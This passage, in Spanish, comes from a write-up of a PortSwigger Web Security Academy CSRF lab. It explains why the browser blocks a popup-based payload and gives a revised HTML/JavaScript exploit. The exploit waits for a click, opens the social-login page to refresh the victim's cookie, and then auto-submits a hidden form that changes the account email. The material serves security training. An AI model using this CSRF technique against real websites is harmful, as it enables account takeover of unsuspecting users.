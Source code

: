Si `pulsamos` sobre `View exploit`, el resultado es parecido al anterior: el `navegador` nos `bloquea` que la `nueva pestaña` se abra y nos `redirige` al `login` para `refrescar` la `cookie

![](/assets/img/CSRF-Lab-10/image_17.png)

![](/assets/img/CSRF-Lab-10/image_18.png)

![](/assets/img/CSRF-Lab-10/image_19.png)

El motivo por el cual nos está bloqueando el `payload` anterior es porque no estamos interactuando con la `web`. He `modificado` el `script` para que tengamos que hacer `click` en la `web` y solo abra la `ventana emergente` una vez lo hayamos hecho

```
<html>
    <body>
        <form method="POST" action="https://0a8e00f7032e7958802e217e00110082.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="pwned@gmail.com">
        </form>
        <p>Click anywhere on the page</p>
        <script>
            window.onclick = () => {
                window.open('https://0a8e00f7032e7958802e217e00110082.web-security-academy.net/social-login');
                setTimeout(changeEmail, 5000);
            }
        
            function changeEmail() {
                document.forms[0].submit();
            }
        </script>
    </body>
</html>
```
